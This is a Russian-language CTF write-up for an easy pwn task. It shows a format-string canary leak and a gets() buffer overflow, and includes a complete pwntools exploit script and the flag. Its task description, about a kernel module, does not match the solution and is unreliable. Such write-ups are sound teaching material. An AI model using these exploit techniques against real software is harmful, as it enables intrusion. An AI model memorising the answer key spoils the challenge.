





# Предстоящий полет | easy | pwn

## Информация
> После подозрительной активоности на сервере, с ядром что-то не так...

## Выдать участинкам
файл [upcoming_flight](public/upcoming_flight)

## Описание
Для решения надо обратить внимание на то, что в одном из модулей ядра была другая подпись и через такие утилиты как ghidra/IDA найти `flag` и декодировать из ASCII.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.



**(Функция arrive)**

Изначально **has_ticket = false** Единственное место, где значение это переменной может измениться - это функция **print_ticket()**



Однако в это условие попасть невозможно, значит нужно искать обходные пути

В этой же функции можно найти вызов gets, в нем не контролируется количество введенных символов, а значит получаем переполнение буфера (можем переписать адрес возврата и прыгнуть на **system(“cat flag”)**). 

Проверяем бинарь с помощью утилиты pwn checksec и видим, что канарейка включена, значит ее нужно предварительно ликнуть.

Чуть выше функции gets есть printf(s), но мы контролируем s, поэтому получаем уязвимость форматный строки (можем вывести переменную со стека).



(Уязвимость форматной строки)



(Ликнутая канарейка)

Далее находим нужный отступ и выводим канарейку, затем переполняем буфер и заменяем адрес возврата на нужный нам.



(адрес, с которого начинается вывод флага)

Полное решение:

```python
from pwn import *

s = process("./upcoming_flight")

s.readuntil(b"> ")
s.sendline(b"2")
s.readuntil(b": ")
s.sendline(b"%15$p")
s.readuntil(b": ")

canary = s.readline().strip().decode()

print(f"Canary leak -> {canary}")

s.readuntil(b": ")
s.sendline(b"A" * (40) + p64(int(canary, 16)) + b"A" * 8 + p64(0x401359))

s.interactive()
```
## Флаг
`PolyCTF{W1_w13h_u_A_n1c3_fL1gHt}`
